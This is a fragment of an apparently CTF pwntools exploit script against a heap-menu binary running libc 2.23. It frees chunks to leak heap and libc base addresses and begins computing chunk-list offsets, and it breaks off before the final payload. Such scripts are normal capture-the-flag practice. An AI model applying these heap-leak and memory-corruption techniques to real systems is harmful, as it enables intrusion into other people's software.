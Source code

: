 ```plain
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
#p=remote('node4.buuoj.cn',29025)
elf = ELF('./pwn')
#libc=ELF('./libc-2.23.so')
libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

def duan():
    gdb.attach(p)
    pause()

def add(size,content):
    p.recvuntil('(CMD)>>> ')
    p.sendline('a')
    p.recvuntil('(SIZE)>>> ')
    p.sendline(str(size))
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)

def delete(index):
    p.recvuntil('(CMD)>>> ')
    p.sendline('d')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(index))

def edit(index,content):
    p.recvuntil('(CMD)>>> ')
    p.sendline('e')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(index))
    p.recvuntil('CONTENT: ')
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)
    p.recvuntil('(Y/n)>>> ')
    p.sendline('y')

add(0xe0, "A"*0xe0)
add(0xf0, "B"*0xf0)
add(0x100, "C"*0x100)
add(0x100, "D"*0x100)
delete(3)
delete(1)
#duan()

ru('INDEX: 1\n')
ru('# CONTENT: ')
k=u64(r(8))
heap_addr=k&0x0000000000ffffff-0x1f0
#heap_addr=u64(p.recvuntil('\n')[:-1].ljust(8,'\x00'))
leak('heap_addr',heap_addr)
ru('INDEX: 3\n')
ru('# CONTENT: ')
libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x3c4b78
leak('libc_base',libc_base)

chunk_list_addr=0x602040
chunk2_addr=heap_addr+0xf0
offset=chunk2_addr-chunk_list_addr
leak('chunk_list_addr >> ',chunk_list_addr)
leak('chunk2_addr >> ',chunk2_addr)
```